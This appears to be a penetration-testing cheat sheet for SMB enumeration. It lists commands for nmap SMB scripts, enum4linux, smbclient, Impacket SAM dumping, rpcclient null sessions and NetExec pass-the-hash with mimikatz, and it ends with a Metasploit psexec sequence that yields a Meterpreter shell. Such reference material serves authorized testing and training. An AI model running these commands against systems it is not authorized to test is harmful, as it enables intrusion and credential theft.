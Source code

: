 # SMB Enumeration Tools

## Nmap Enumeration

```
$ ls -lh /usr/share/nmap/scripts/ | grep smb
-rw-r--r-- 1 root root  3355 Oct 12 09:29 smb2-capabilities.nse
-rw-r--r-- 1 root root  3075 Oct 12 09:29 smb2-security-mode.nse
-rw-r--r-- 1 root root  1447 Oct 12 09:29 smb2-time.nse
-rw-r--r-- 1 root root  5238 Oct 12 09:29 smb2-vuln-uptime.nse
-rw-r--r-- 1 root root 45138 Oct 12 09:29 smb-brute.nse
-rw-r--r-- 1 root root  5289 Oct 12 09:29 smb-double-pulsar-backdoor.nse
-rw-r--r-- 1 root root  4840 Oct 12 09:29 smb-enum-domains.nse
-rw-r--r-- 1 root root  5971 Oct 12 09:29 smb-enum-groups.nse
-rw-r--r-- 1 root root  8043 Oct 12 09:29 smb-enum-processes.nse
-rw-r--r-- 1 root root 27274 Oct 12 09:29 smb-enum-services.nse
-rw-r--r-- 1 root root 12097 Oct 12 09:29 smb-enum-sessions.nse
-rw-r--r-- 1 root root  6923 Oct 12 09:29 smb-enum-shares.nse
-rw-r--r-- 1 root root 12527 Oct 12 09:29 smb-enum-users.nse
-rw-r--r-- 1 root root  1706 Oct 12 09:29 smb-flood.nse
-rw-r--r-- 1 root root  7471 Oct 12 09:29 smb-ls.nse
-rw-r--r-- 1 root root  8758 Oct 12 09:29 smb-mbenum.nse
-rw-r--r-- 1 root root  8220 Oct 12 09:29 smb-os-discovery.nse
-rw-r--r-- 1 root root  4982 Oct 12 09:29 smb-print-text.nse
-rw-r--r-- 1 root root  1831 Oct 12 09:29 smb-protocols.nse
-rw-r--r-- 1 root root 63596 Oct 12 09:29 smb-psexec.nse
-rw-r--r-- 1 root root  5190 Oct 12 09:29 smb-security-mode.nse
-rw-r--r-- 1 root root  2424 Oct 12 09:29 smb-server-stats.nse
-rw-r--r-- 1 root root 14159 Oct 12 09:29 smb-system-info.nse
-rw-r--r-- 1 root root  7524 Oct 12 09:29 smb-vuln-conficker.nse
-rw-r--r-- 1 root root  6402 Oct 12 09:29 smb-vuln-cve2009-3103.nse
-rw-r--r-- 1 root root 23154 Oct 12 09:29 smb-vuln-cve-2017-7494.nse
-rw-r--r-- 1 root root  6545 Oct 12 09:29 smb-vuln-ms06-025.nse
-rw-r--r-- 1 root root  5386 Oct 12 09:29 smb-vuln-ms07-029.nse
-rw-r--r-- 1 root root  5688 Oct 12 09:29 smb-vuln-ms08-067.nse
-rw-r--r-- 1 root root  5647 Oct 12 09:29 smb-vuln-ms10-054.nse
-rw-r--r-- 1 root root  7214 Oct 12 09:29 smb-vuln-ms10-061.nse
-rw-r--r-- 1 root root  7344 Oct 12 09:29 smb-vuln-ms17-010.nse
-rw-r--r-- 1 root root  4400 Oct 12 09:29 smb-vuln-regsvc-dos.nse
-rw-r--r-- 1 root root  6586 Oct 12 09:29 smb-vuln-webexec.nse
-rw-r--r-- 1 root root  5084 Oct 12 09:29 smb-webexec-exploit.nse
$ nmap x.x.x.x -v -p 139,445 --script=exampleScript1.nse,exampleScript2.nse
```

## Enum4linux

All simple checks:

```
enum4linux -a x.x.x.x
enum4linux -U x.x.x.x
enum4linux -r x.x.x.x
enum4linux -S x.x.x.x
```

Brute force guessing for share names:
`enum4linux -s /usr/share/enum4linux/share-list.txt x.x.x.x`

## Enum4linux-Ng

https://github.com/cddmp/enum4linux-ng

```
enum4linux 172.21.0.0 -A
enum4linux-ng 172.21.0.0 -A -C
enum4linux 172.21.0.0 -S
enum4linux 172.21.0.0 -K ticket.kirbi -A
```

## Nmap: 

- `nmap --script smb-* -p 139,445, 172.21.0.0`
- `nmap --script smb-enum-* -p 139,445, 172.21.0.0`

```
/usr/share/nmap/scripts/smb-brute.nse
/usr/share/nmap/scripts/smb-enum-domains.nse
/usr/share/nmap/scripts/smb-enum-groups.nse
/usr/share/nmap/scripts/smb-enum-processes.nse
/usr/share/nmap/scripts/smb-enum-services.nse
/usr/share/nmap/scripts/smb-enum-sessions.nse
/usr/share/nmap/scripts/smb-enum-shares.nse
/usr/share/nmap/scripts/smb-enum-users.nse
/usr/share/nmap/scripts/smb-flood.nse
/usr/share/nmap/scripts/smb-ls.nse
/usr/share/nmap/scripts/smb-mbenum.nse
/usr/share/nmap/scripts/smb-os-discovery.nse
/usr/share/nmap/scripts/smb-print-text.nse
/usr/share/nmap/scripts/smb-protocols.nse
/usr/share/nmap/scripts/smb-psexec.nse
/usr/share/nmap/scripts/smb-security-mode.nse
/usr/share/nmap/scripts/smb-server-stats.nse
/usr/share/nmap/scripts/smb-system-info.nse
```

## SMBmap

```
$ smbmap -H 172.21.0.0 -d [domain] -u [user] -p [password]
$ smbmap -H 172.21.0.0 -d [domain] -u "" -p ""
```

## SMBClient

```
$ smbclient -L 172.21.0.0
$ smbclient -L x.x.x.x -U ""
$ smbclient //172.21.0.0/tmp
```

If you have a user name or guest login works:

```
$ smbclient //windows_server_NETBIOS_NAME/destination_folder -U WINDOWS_USER -I x.x.x.x
```

or

```
$ smbclient -L //x.x.x.x -U guest -i x.x.x.x
```

Recursively list a directory:

```
$ smbclient \\\\x.x.x.x\\Folder
smb: \> recurse on             
smb: \> ls
```

Recursively get all files in a share:

```
$ smbget -R smb://x.x.x.x/Folder/ -U Username
```

## Impacket 

```
python3 /usr/share/doc/python3-impacket/examples/smbclient.py username@x.x.x.x
```

```
python3 samdump.py SMB x.x.x.x
```

## Impacket SmbClient: 

```
/usr/share/doc/python3-impacket/examples/smbclient.py username@172.21.0.0
impacket-smbclient username@172.21.0.0
```

## Impacket Samdump:

```
impacket-sam SMB 172.21.0.0
```

## RPCclient

```
rpcclient -U "" -N x.x.x.x enumdomusers
```

Attempt an null connection:

```
rpcclient -U '' x.x.x.x
```

## CrackMapExec

```
$ crackmapexec smb -L 
$ crackmapexec x.x.x.x -u Administrator -H [hash] --local-auth
$ crackmapexec x.x.x.x -u Administrator -H [hash] --share
$ crackmapexec smb x.x.x.0/24 -u user -p 'Password' --local-auth -M mimikatz
```

Attempt an null connection:

```
$ crackmapexec smb x.x.x.x --pass-pol -u '' -p ''
```

## NetExec: 

Replaced all crackmapexec commands with NetExec due to change in contribution of the project

```
netexec smb -L 
netexec 172.21.0.0 -u Administrator -H [hash] --local-auth
netexec 172.21.0.0 -u Administrator -H [hash] --share
netexec smb --gen-relay-list smb-targets.txt 172.21.0.0/24
netexec smb 172.21.0.0/24 -u user -p 'Password' --local-auth -M mimikatz
netexec smb x.x.x.x --pass-pol -u '' -p ''
```

## Polenum

Attempt an null connection:

```
$ polenum -u '' -p '' -d x.x.x.x
```

## Metasploit

If you have user credentials, you can use them to get a Meterpreter shell on the machine running smb:

```
msf6 > use exploit/windows/smb/psexec
msf6 > set RHOSTS x.x.x.x
msf6 > set SMBUser <username>
msf6 > set SMBPass <password>
msf6 > set RPORT <default_is_445>
msf6 > run
```